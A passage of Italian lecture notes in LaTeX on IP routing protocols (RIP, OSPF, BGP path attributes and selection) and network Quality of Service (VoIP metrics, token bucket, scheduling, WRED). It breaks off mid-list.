Una qualsiasi rete a pacchetto può essere modellata come un \textit{grafo orientato e pesato} in cui i nodi sono i router ed i rami sono le linee trasmissive o intere subnets: questa è la topologia logica della rete a livello IP. L'instradamento (routing) di un pacchetto equivale alla ricerca di un cammino (minimo) nel grafo associato della rete. Per ogni nodo sorgente esisterà un albero che lo connette a tutti i possibili nodi destinazione (non tutta Internet, stiamo parlando a livello di AS). Dunque in un AS con $N$ nodi di hanno $N^2$ alberi. Un router non deve tuttavia conoscere tutti gli alberi, è sufficiente che conosca il next-hop relativo a tutte le possibili destinazioni all'interno dell'AS; per avere questa conoscenza non è necessario calcolare gli $N^2$ alberi.\\
Per quanto riguarda il costo dei rami è possibile utilizzare due strategie: \textit{costo fisso} e \textit{costo dinamico}. La prima strategia può essere considerata se il costo di un ramo è legato alla sua esistenza: assegniamo $costo = 1$ se il ramo esiste, $costo = \infty$ altrimenti. Questo algoritmo non genera un overhead considerevole, ma genera alberi molto statici e funziona bene sono se il carico su un ramo (o la congestione di nodo) non sono fattori importanti. Sostanzialmente il costo fisso viene usato per reti che hanno cambiamenti nel tempo molto lenti. La seconda strategia è decisamente più complessa della prima: è necessario decidere un funzionale di costo e può generare soluzioni instabili per le quali occorre fare attenzione. Il costo dinamico viene usato per reti che hanno cambiamenti nel tempo molto frequenti. In entrambi i casi il routing è \textit{dinamico}, perché è generato automaticamente.\\
Un classico esempio di algoritmo di routing a costo fisso è il \textbf{RIP} (RIP v2: RFC 2453). Il costo di un ramo, detto \textit{metric}, è fisso e tale che $metric \in [1, \dots, 15]$; il valore $metric = 16$ indica un link down. L'algoritmo implementato è di tipo \textit{distance vector} (non ha bisogno di memorizzare la topologia della rete), nel quale si minimizza una \textquotedblleft distanza" generalizzata rappresentata dal parametro \textit{metric}. In pratica ogni nodo scambia con i vicini diretti (i router è cui e connesso direttamente, i next-hop) un pacchetto RIP; il router ricevente analizza il pacchetto e, se indica un percorso con metrica inferiore a quella già contenuta nella sua RT, aggiorna la RT. Il limite a 16 di \textit{metric} è imposto per ovviare al problema del link down. In pratica, se un link non è più disponibile, a questo viene associato un costo infinito ed un nodo adiacente non lo può raggiungere. Il nodo adiacente chiede dunque agli altri suoi vicini se possiedono una rotta per il nodo non raggiungibile e questi, non essendo stati ancora aggiornati del link down, rispondono erroneamente indicando un certo numero di hop. Si innesca così un meccanismo ciclico per cui inizia ad aumentare sempre più il numero di hop per raggiungere il nodo \textquotedblleft irraggiungibile" (questo problema prende il nome di \textit{counting-to-infinity}); per limitare questa crescita infinita, il primo router che raggiunge $metric = 16$ pone fine al ciclo ed aggiorna i vicini. Più è alto il massimo valore di \textit{metric}, più la rete impiega ad \textquotedblleft accorgersi" di un link down. Il RIP ha, dall'altro lato, un limite intrinseco per i 16 \textquotedblleft hop", che limita pesantemente le possibilità di differenziare i link su reti \textquotedblleft larghe" (i link dovrebbero quindi essere più o meno tutti uguali). È semplice riconoscere che questo è un algoritmo Bellman-Ford: alla ricezione di un pacchetto questo viene confrontato con le entry nella RT e se necessario viene aggiornata la RT. Se indichiamo con $|V|$ il numero di vertici e con $|E|$ il numero di archi del grafo, questo algoritmo necessita di $O(|V|\cdot|E|)$ passi per essere eseguito. Ogni passo è tuttavia eseguito ogni 30 secondi a causa del timer di invio dei pacchetti RIP, dunque se ad esempio prendessimo $|V|=40$ e $|E|=50$, l'algoritmo impiegherebbe oltre 16 ore per essere eseguito. Inoltre la convergenza lenta non permette, ad esempio, di legare la metrica alla congestione dei rami. In realtà non è esattamente così: esiste un algoritmo di routing, detto \textit{triggered-updates} per cui, quando cambia una tabella di routing, il messaggio di update dei vicini viene inviato dopo circa due secondi; questo permette dei tempi di convergenza ragionevoli. Vi sono varie versioni del RIP: il \textit{RIPv1}, in cui l'autenticazione ed il CIDR sono assenti (da non usare), il \textit{RIPv2} nel quale sono presenti l'autenticazione ed il CIDR, è retro-compatibile con RIPv1 e gestisce la differenza tra routes interior e exterior (dell'AS), ed \textit{RIPng}, che è identico al RIPv2, ma progettato per IPv6.\\
Un esempio di algoritmo di routing a costo dinamico è l'\textbf{OSPF (Open Shortest Path First)}. Attualmente OSPFv2, descritto nell'RFC 2328, è per IPv4, mentre OSPFv3, descritto nell'RFC 2740, è per IPv6: vi sono poche differenze effettivamente, l'obiettivo è quello di unirli in un unico protocollo. In questo tipo di algoritmo si ha che il costo di un ramo (\textit{metric}) è dinamico, il parametro \textit{metric} è abbastanza grande da non creare problemi ed implementa un Link State Routing (ha bisogno di memorizzare la topologia della rete). Lo standard dell'OSPF ordina inoltre di utilizzare l'algoritmo di Dijkstra: se indichiamo con $|V|$ il numero di vertici e con $|E|$ il numero di archi del grafo, questo algoritmo necessita di $O(|E|+|V|\log |V|)$ passi per essere eseguito. Computazionalmente parlando è ancora piuttosto complesso: una volta ricevuti i dati (LSA), il router deve calcolare la propria tabella di routing prima dell'arrivo dei dati successivi. Ogni router ha quindi un limite massimo di numero di vertici e di archi che può supportare. Dal momento che il costo è associato ed ogni router, per decidere la RT, deve conoscere tutti i costi dei rami, è indispensabile che un router conosca l'intera topologia della rete (nel RIP non è necessario). In particolare, i router hanno la responsabilità di contattare i router adiacenti (cioè tutti i router che condividono con esso una parte della rete) e di acquisire la loro identità con dei pacchetti di Hello. I router formano quindi dei Link State Advertisement (LSA), contenenti una lista delle reti adiacenti con i relativi costi di raggiungimento, che verranno poi trasmessi a tutti gli altri router. Dunque tutti i router della rete avranno lo stesso insieme di dati e quindi potranno costruire lo stesso grafo pesato della rete, utilizzato per determinare i cammini ottimi e quindi l'instradamento. In questo processo vi è sia un grande carico computazionale sia un grande overhead. Dunque abbiamo che per il RIP la complessità computazionale influisce sulla velocità di convergenza, mentre nell'OSPF la complessità computazionale è un limite che influisce sulla potenza di calcolo della CPU del router. Per limitare i problemi di complessità computazionale e di carico di rete, OSPF viene organizzato in modo \textit{gerarchico} (in aree) all'interno di un AS (Figura \ref{img:OSPF}).
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/OSPF}
	\caption{Organizzazione gerarchica di OSPF.}
	\label{img:OSPF}
\end{figure}\\
In particolare esiste un'area speciale detta \textit{area di backbone} che connette tutte le altre aree (numerate); la definizione delle aree è lasciata al network manager. Gli unici requisiti da rispettare sono due: tutti i router di ogni area devono essere interconnessi e le varie aree devono essere connesse solo tramite backbone. All'interno di ciascuna area l'algoritmo di routing è OSPF che calcola il path minimo tra i router di quell'area. Il risultato di utilizzare OSPF in un AS è quello di \textit{non} ottenere il percorso migliore (globale), perché questo non è la \textquotedblleft somma" di tutti i percorsi ottimi all'interno di un'area (locali).\\
Vediamo quindi brevemente l'\textit{inizializzazione} di OSPF:
\begin{enumerate}
	\item Si effettua una inizializzazione e controllo (attraverso i livelli inferiori) delle interfacce.
	\item Si inviano degli \textit{Hello} in broadcast per acquisire le informazioni sui router vicini.
	\item Si ricevono gli \textit{Hello} dei vicini, che vengono anche utilizzati per testare il funzionamento dei link (keep alive).
\end{enumerate}
Nelle aree multi-accesso si elegge un \textit{designated router}, mentre l'altro router è di backup. Così facendo si limitano sia il traffico sia la complessità del grafo di rete. Periodicamente si inviano \textit{LSA (Link State Advertisement)} per fornire informazioni topologiche e per notificare cambiamenti nello stato dei router e dei links. A regime viene costruito il database topologico della rete (dai LSA), ciascun router calcola lo shortest-path tree a lui relativo e lo shortest-path tree genera la tabella di routing. Vi sono cinque tipi di pacchetto OSPF:
\begin{itemize}
	\item \textbf{Hello}. Stabilisce e mantiene le relazioni con i vicini.
	\item \textbf{Database description}. Descrive il contenuto del database topologico. Questi messaggi sono in genere scambiati quando viene inizializzata un'adiacenza.
	\item \textbf{Link-state request}. Richiede parti del database topologico dai router vicini. Questo tipo di messaggio viene scambiato dopo che un router scopre (esaminando i pacchetti di descrizione del database) che parti del proprio database topologico sono obsolete.
	\item \textbf{Link-state update}. Risponde ad un pacchetti di tipo link-state request. Questi messaggi sono utilizzati anche per la dispersione regolare di LSAs. In un singolo pacchetto di tipo link-state update può essere incluso più di un LSA.
	\item \textbf{Link-state acknowledgment}. Accetta i pacchetti di tipo link-state update.
\end{itemize}
Un concetto da precisare ulteriormente per quanto riguarda OSPF è l'\textit{adiacenza}: due router si considerano adiacenti se appartengono alla stessa area. Quindi, il traffico di OSPF è grande (per una rete grossa ho sia problemi di capacità computazionale sia dei problemi di overhead, perché i LSAs devono essere mandati da un nodo a tutti i nodi appartenenti alla stessa area) e tutti i router di una stessa area hanno lo stesso database topologico. I LSAs vengono inviati a tutti i router adiacenti, tramite flooding o multicast.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/BGP}
	\caption{IBGP e EBGP.}
	\label{img:BGP}
\end{figure}\\
Vediamo adesso i protocolli di routing \textit{EGP}. Tra AS diversi \textit{non} è possibile utilizzare protocolli di routing IGP; il motivo principale è la mancanza di una funzione da minimizzare. Dal momento che gli AS sono domini amministrativi diversi, è impensabile poter \textquotedblleft ottimizzare" una funzione, perché il costo dei link è dipendente da fattori non quantificabili su una scala condivisa. I protocolli EGP tendono dunque a minimizzare altro, come parametri locali e fattori commerciali. Il protocollo EGP più diffuso è il \textit{BGP} (Border Gateway Protocol) e ne esistono due varianti (Figura \ref{img:BGP}):
\begin{itemize}
	\item \textbf{IBGP} (Interior BGP). Viene utilizzato all'interno di un AS e serve per far comunicare (a livello logico) i suoi router di bordo. Le rotte interne all'AS sono sempre e comunque determinate da un IGP.
	\item \textbf{EBGP} (Exterior BGP). Viene utilizzato tra due diversi AS. Normalmente opera su un link punto-punto.
\end{itemize}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/BGP-internal}
	\caption{Struttura interna di un router di bordo.}
	\label{img:BGP-internal}
\end{figure}
In Figura \ref{img:BGP-internal} è rappresentata la struttura logica interna di un router di bordo, ovvero di un router che risiede al confine di un AS e si occupa di collegare fra loro più AS. Questo avrà un'interfaccia verso l'esterno ed una o più interfacce verso l'interno. Sull'esterno vi è il protocollo EBGP, sull'interno vi è l'IBGP ed un protocollo interno (e.g. OSPF). Questi tre protocolli convivono tramite la RT. Quando arriva la dichiarazione di una rotta raggiungibile dall'esterno (exterior) tramite EBGP, questa viene scritta nella RT come rotta esterna e viene propagata, con eventuali parametri, tramite IBGP in tutto l'AS; si noti che i parametri possono essere specificati da IBGP e non da OSPF. I parametri non sono quelli standard di un protocollo di routing interior, ma dei parametri locali (interni ai router):
\begin{itemize}
	\item \textbf{Weight}. È un attributo locale non propagato (advertised). In caso di multipath, viene preferita la route con weight più grande.
		\begin{figure}[htbp]
			\centering
			
\includegraphics[scale = 0.4]{images/weight}
			\caption{Weight.}
			\label{img:weight}
		\end{figure}
	Con riferimento alla Figura \ref{img:weight}, supponiamo di avere un AS di destinazione (AS 100) ed un AS di partenza (AS 200). Entrambi i link vengono realizzati con Advertisement di una data subnet. La rotta da preferire è quella a weight maggiore. Il weight può essere ad esempio riferito al tipo di collegamento (e.g. wireless o fibra).
	\item \textbf{Local preference}. Si hanno due router di ridondanza in entrambi gli AS (Figura \ref{img:local-preference}).
		\begin{figure}[htbp]
			\centering
			
\includegraphics[scale = 0.4]{images/local-preference}
			\caption{Local preference.}
			\label{img:local-preference}
		\end{figure}
	È usato per scegliere la strada di \textit{uscita} preferita tra due o più router. In caso di multi-route viene preferita la route con maggior peso. Tra i due router dell'AS 100 vi è una comunicazione IBGP per mettersi d'accordo su quale dei due utilizzare, in base al local preference, per andare in quella sottorete. Una volta decisa, l'informazione tornerà ai router dell'AS 200 che avranno come \textit{preferred route} D-B. C toglierà dalla propria routing table usata da OSPF il link verso A.
	\item \textbf{Multi-exit discriminator (MED) o metric attribute}. È utilizzato per suggerire la strada di \textit{ingresso} preferita tra due o più router. In caso di multi-route, viene preferita la route con minor peso.
		\begin{figure}[htbp]
			\centering
			
\includegraphics[scale = 0.4]{images/MED}
			\caption{Multi-Exit Discriminator Attribute.}
			\label{img:med}
		\end{figure}
	Sostanzialmente è il caso contrario di quello precedente. Se il local preference rappresenta una decisione del local AS, il MED rappresenta una dichiarazione di preferenza dell'altro AS.
	\item \textbf{Origin}. È utilizzato per classificare il modo con cui BGP ha appreso una route. In particolare, le route sono divise in:
	\begin{itemize}
		\item \textbf{IGP}. La route è generata da un protocollo IGP ed è interna all'AS che la propaga.
		\item \textbf{EGP}. La route è stata appresa attraverso un protocollo EGP.
		\item \textbf{Incomplete}. La route è di origine sconosciuta o appresa tramite altra via (e.g. inserita a mano).
	\end{itemize}
	Questa classificazione è utilizzata per la scelta della tabella di routing: in genere si preferiscono secondo l'ordine IGP, EGP, Incomplete. Questo perché, se ad esempio si fosse data priorità maggiore ad un EGP piuttosto che ad un IGP, potrebbe essere selezionata una rotta esterna per arrivare ad un router del proprio AS.
	\item \textbf{AS\_path}. È utilizzato per determinare i loop: ogni router di un AS traversato viene aggiunto ad una lista ordinata e vengono scartate tutte le routes che contengano loops (individuando se nel path vi è due volte lo stesso router).
	\item \textbf{Next hop}. È utilizzato per indicare il next-hop (indirizzo IP del router che fa l'advertising). Nell'EBGP è l'indirizzo IP dell'advertiser, mentre nell'IBGP il next-hop viene lasciato inalterato: è quindi necessario avere un IGP all'interno dell'AS oppure utilizzare delle routes statiche all'interno dell'AS. La route viene altrimenti scartata.
	\item \textbf{Community}. È utilizzato per raggruppare destinazioni (comunità) per le quali le decisioni di routing debbano subire speciali trattamenti. Sostanzialmente serve per limitare la distribuzione di una rotta.
	\begin{figure}[htbp]
		\centering
		
\includegraphics[scale = 0.5]{images/community}
		\caption{Community.}
		\label{img:community}
	\end{figure}
	Per definire le comunità si usano le \textit{route maps}. Le comunità preferite sono:
	\begin{itemize}
		\item \textbf{Internet}. Advertising libero senza alcuna restrizione.
		\item \textbf{No-Export}. Non esportare la route tramite EBGP: rimane all'interno dell'AS.
		\item \textbf{No-Advertise}. Non esportare la route a nessuno.
	\end{itemize}
	La community è stata ideata per questioni di sicurezza (non voglio che una rotta passi attraverso AS non fidati, che potrebbero usarla) e di accordi commerciali tra AS diversi (si decide se far passare o meno dati attraverso la propria infrastruttura di rete). Con riferimento alla Figura \ref{img:community}, è possibile vedere come nel primo caso il router dell'AS 1 trasmetta l'indirizzo della subnet, chiedendo esplicitamente di non ri-esportarlo all'esterno dell'AS 2; nel secondo caso, invece, l'indirizzo non viene esportato neppure ai router dell'AS 2. In entrambi i casi AS 3 non è a conoscenza del collegamento fra AS 1 e AS 2.
\end{itemize}
Per stabilire una route, i router BGP si scambiano quindi queste informazioni riguardanti la raggiungibilità di una rete e una serie di attributi relativi al link (o ai link) tra i due AS coinvolti. Come può essere già intuito, BGP non è un protocollo che ottimizza globalmente i percorsi: abbiamo solo una serie di minimi locali. I minimi locali vengono riconosciuti attraverso un funzionale non continuo. In particolare, quando si riceve un aggiornamento, si procede alla scelta del path secondo la seguente logica:
\begin{enumerate}
	\item Se il path specifica un next hop inaccessibile, scarta l'update.
	\item Scegli il path con maggior weight (locale).
	\item Se sono uguali, scegli il path con maggior local preference.
	\item Se sono uguali, scegli il path originato dal BGP che gira sul router stesso.
	\item Altrimenti, scegli il path con l'AS\_path più corto.
	\item Se sono uguali, scegli in base all'origin (IGP $>$ EGP $>$ incomplete)
	\item Altrimenti, scegli il path con il MED più basso.
	\item Altrimenti, scegli il path esterno piuttosto che quello interno.
	\item Altrimenti, scegli il path attraverso l'IGP più vicino.
	\item Altrimenti, scegli il path con il numero IP più basso, secondo quanto specificato dall'ID del router BGP.
\end{enumerate}
Si noti che non vi sono regole che fanno riferimento alla community, perché questa agisce già, a livello generale, sull'esportabilità della route; questa procedura viene fatta sui dati che si hanno, dunque la community ha già agito in precedenza. Inoltre, l'unico punto sul quale è possibile compiere dell'ottimizzazione è il quinto (sul numero di hop) e si può notare immediatamente che non è un'ottimizzazione globale. Infine, la regola dieci, che apparentemente è priva di senso, in realtà vuole rappresentare la regola di default, cioè la regola che si vuole attuare in caso di fallimento delle condizioni precedenti. Quello che si vuol fare nell'ultima regola è evitare la casualità imponendo una scelta (arbitraria, ma fissata) dalla quale è possibile capire che siamo finiti nel caso di default.

Dunque, non è prevista nessuna regola sulla minimizzazione della distanza né sulla banda tra AS diversi e non vi è ottimizzazione o minimizzazione end-to-end. La somma dei minimi locali \textit{non} garantisce la scelta di un path globale ottimo. Lo scopo del BGP è invece quello di avere dei \textit{percorsi stabili e raggiungibili}. Dal BGP dipendono quindi la connettività globale di Internet, la stabilità dei link e le priorità.

\section{Quality of Service}
La \textbf{Quality of Service (QoS)} si riferisce ai meccanismi di controllo delle risorse che influiscono sulla qualità di un servizio (sono quantità misurabili in modo oggettivo, e.g. banda). La QoS è la capacità di fornire diverse priorità a diverse applicazioni, utenti o flussi di dati, o per garantire un certo livello di prestazioni per un flusso di dati.\\
La \textbf{Quality of Experience (QoE)} è una misura soggettiva dell'esperienza di un utente con un venditore. La QoE dipende dalla QoS.\\
La base di tutto è la QoE, ovvero la soddisfazione dell'utente, che è dipendente dal \textit{servizio} e dalle \textit{aspettative} dell'utente. In una rete \textit{monoservizio} la QoE è un semplice problema relativo alla gestione della rete, mentre nelle reti \textit{multiservizio} la QoE dipende da come vengono gestiti nella rete i vari tipi di flussi dati. Alcuni pacchetti devono avere infatti una gestione diversa, altrimenti non è possibile avere un servizio adeguato.

La QoS deve essere effettuata a tutti i livelli di rete, con un approccio cross-layer. A livello applicazione vi è lo sviluppo di API capaci di riservare trattamento diverso ai servizi Real-time a livello di sistema operativo, a livello trasporto i protocolli devono essere differenziati per servizio (QoS end-to-end), a livello rete vi deve essere una differenziazione dei flussi a livello IP (QoS router-to router), a livello collegamento vi è una differenziazione dei flussi a livello di frame o celle (QoS sul link), ed a livello fisico devono essere presenti mezzi trasmissivi più efficienti (rame, fibra ottica), tecniche di codifica, BER adattiva.

Nel 2001 Sprint (un grande ISP americano) sosteneva che la QoS non serve, perché se si ha a disposizione una banda pressoché infinita non vi sono problemi di trasmissione. In realtà Sprint stava adottando una politica di \textit{over-provisioning}, per cui aveva un'infrastruttura di rete (anche con diverse fibre per lo stesso link) a capacità trasmissiva ed a banda molto elevata. Infatti, il costo maggiore per la realizzazione di un'infrastruttura di rete sono gli scavi per far passare i collegamenti, non la singola fibra in sé. Dunque, non appena il traffico raggiungeva un livello sufficientemente alto, semplicemente veniva allocata più banda. Ciò che serviva secondo Sprint era la Quality of Access (QoA); le reti di dorsale europee sono molto più congestionate e con capacità inferiori. Purtroppo l'over-provisioning non è così semplice in Europa.

In sostanza le tecniche di QoS servono a raggiungere il grado desiderato di QoE; tuttavia la QoE non è dipendente dalle tecniche che vengono usate (l'utente non ne è al corrente), quindi qualsiasi mezzo per ottenere la QoE è lecito. Esistono differenti metodi per ottenere la QoE.\\
Un esempio concreto di tipi diversi di traffico è il traffico di tipo \textit{non real-time} (TCP) ed il traffico \textit{real-time} (UDP). Il primo è di tipo Burst, richiede un tasso di errore praticamente nullo, tutti i pacchetti sono trattati allo stesso modo e potrebbero essere ricevuti con un certo ritardo. Il secondo è un flusso di tipo continuo, accetta un certo numero di errori, i pacchetti hanno priorità diverse e devono essere ricevuti con il minor ritardo possibile.\\
Un altro esempio è il VoIP. Se andiamo a misurare la qualità di una comunicazione VoIP, potremmo usare i seguenti parametri: tasso di perdita di pacchetti IP, delay e delay Jitter (variazione del delay). La QoS risultante è mostrata in Tabella \ref{tab:voip-table}.
\begin{table}[htbp]
	\centering
	\begin{tabular}{l|c|c|c|c}
		& Scarsa & Media & Buona & Ottima \\ \hline
		Packet Loss (\%) & 25 & 10 & 3 & 0 \\ 
		Delay (ms) & $>450$ & 450 & 250 & $<150$\\
		Jitter (ms) & 225 & 125 & 75 & 0
	\end{tabular}
	\caption{Tabella dei parametri di QoS VoIP.}
	\label{tab:voip-table}
\end{table}\\
Il delay Jitter è il parametro più difficile da rispettare. Se vogliamo una buona qualità dobbiamo quindi avere un ritardo basso e pochissimo accodamento nei buffer. La presenza di una coda implica infatti un Jitter; togliendo la coda e buttando quindi alcuni pacchetti, non abbiamo Jitter. Dunque la QoS è sostanzialmente un trade-off tra packet loss, delay e Jitter. Esiste un altro metodo per evitare il riempimento delle code: AQM (Active Queue Management).

Per diminuire il Jitter a destinazione vi è un \textit{buffer di playout}. Tutti i flussi RT (Real-Time) hanno caratteristiche di isocronicità (grossomodo), o quantomeno devono essere usati dal player allo stesso rate di emissione della sorgente. La trasmissione in rete introduce perdite e ritardi, ma soprattutto altera i riferimenti temporali intra-pacchetto (Jitter). Per recuperare la desincronizzazione si deve usare un buffer di playout che è dipendente dal Jitter, ma che però introduce un ulteriore ritardo. In sostanza: se è troppo piccolo si cominciano a perdere pacchetti e/o a non averne di disponibili; se è troppo grande si introduce troppo ritardo. Un esempio di buffer di playout è quello di YouTube, ossia la barra grigia che ne indica il riempimento.

La QoS end-to-end deve garantire livelli di servizio accettabili in \textit{tutti} gli elementi della catena di comunicazione. Sorgono problemi quando il link end-to-end attraversa reti di ISP diversi: servono accordi di \textit{peering} e di \textit{Service Level Agreement} fra gli ISP. Un problema risiede nel fatto che non tutte le reti sono uguali, ciascuna ha le proprie criticità: accesso (pochi utenti, banda limitata), core (molti utenti, banda molto elevata), tecnologie differenti. Non è sufficiente creare un backbone ad alta velocità per ridurre la dipendenza dalla QoS ed esistono reti in cui non è possibile fare affidamento sulla larga banda.

Per la QoS servono differenti strategie nelle diverse parti di rete. In particolare possiamo parlare di \textit{QoS nei nodi di rete} e \textit{QoS end-to-end}. La prima è sostanzialmente a livello IP: shaping del traffico, scheduling dei pacchetti, classificazione, riservazione delle risorse, etc. La seconda può coinvolgere anche i livelli protocollari superiori con meccanismi di segnalazione end-to-end, architetture di rete per la QoS, etc.\\
In un nodo si possono implementare diverse funzioni relative alla QoS, ma non tutte sono applicabili in tutti i punti della rete a causa del carico computazionale che richiedono. Queste sono:
\begin{itemize}
	\item \textbf{Classifier}. Osserva i pacchetti IP entranti nel nodo e li classifica in base al loro indirizzo IP, Port Number e al tipo di protocollo superiore.
	\item \textbf{Marker}. Provvede a \textquotedblleft marchiare" i pacchetti con una QoS a seconda di come sono stati classificati dal Classifier.
	\item \textbf{Traffic Policer}. Esegue un condizionamento del traffico, osservando il rate possibile ed agendo di conseguenza. In pratica confronta il traffico con le policy definite nel Service Level Agreement (contratto con ISP).
	\item \textbf{Traffic Shaper}. Modella il flusso sulla porta di uscita in modo da ottimizzare il throughput, sulla base delle istruzioni fornite Traffic Policer.
	\item \textbf{Scheduler}. Genera più code all'interno del nodo di rete e usa algoritmi di scheduling delle code, evitando o gestendo le congestioni di rete. È l'elemento che influenza di più la QoS.
\end{itemize}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/token-bucket}
	\caption{Token Bucket.}
	\label{img:token-bucket}
\end{figure}
Un esempio di algoritmo di Traffic Policy (o Shaper) nei nodi di rete è il Token Bucket (Figura \ref{img:token-bucket}). Quando un pacchetto arriva al router, viene tolto dal Bucket un certo numero di Tokens (dipendentemente dalla dimensione del pacchetto); un pacchetto non potrà essere inviato se non ci sono Tokens a sufficienza nel Bucket. Il router trasmetterà un burst di pacchetti minore o uguale a $B$, ad un rate minore o uguale ad $R$. Lo scopo principale è quello di limitare il rate medio di pacchetti.

Gli algoritmi di scheduling nei nodi di rete sono molto simili a quelli che si trovano nei Sistemi Operativi, hanno gli stessi obbiettivi e gli stessi difetti. Vediamo tre tipi di scheduler:
\begin{enumerate}
	\item \textbf{Scheduler ottimo}. Uno scheduler ottimo sarebbe quello che si avvicina al limite del \textit{Fluid Scheduling}, ossia ad uno scheduler che tende a dividere i dati in unità piccolissime. Sfortunatamente le \textquotedblleft unita" di scheduling sono i pacchetti, oltre non è possibile scendere.
	\item \textbf{Scheduler non Work Conserving}. È uno scheduler che può essere inattivo in qualche istante, ma può garantire alcune proprietà, come le deadlines. Se succede qualcosa di imprevisto, si è in grado di interrompere il task in corso.
	\item \textbf{Scheduler Work Conserving}. È uno scheduler che è inattivo solo quando non vi è più traffico da spedire. Non è possibile tuttavia interrompere un task in corso, ossia non è strettamente a priorità.
\end{enumerate}
Gli algoritmi di scheduling nei router sono uno dei punti più delicati.

A volte le code di ricezione si riempiono e buttare via i pacchetti quando la coda è piena (\textit{tail-drop}) è la cosa sbagliata. Il \textit{queue management} è strettamente legato al \textit{congestion control}, perché il TCP (e molti altri protocolli) rilevano le congestioni misurando il numero di pacchetti persi. Sostanzialmente servono ad evitare congestioni: si fornisce un feedback attivo al trasmettitore prima che la coda diventi piena. Un esempio di come questo viene fatto è l'algoritmo \textbf{WRED (Weighted Random Early Detection)}, di cui vediamo gli aspetti principali:
\begin{itemize}
	\item I pacchetti vengono scartati dal nodo di rete con probabilità tanto maggiore quanto più la coda è piena (RED).
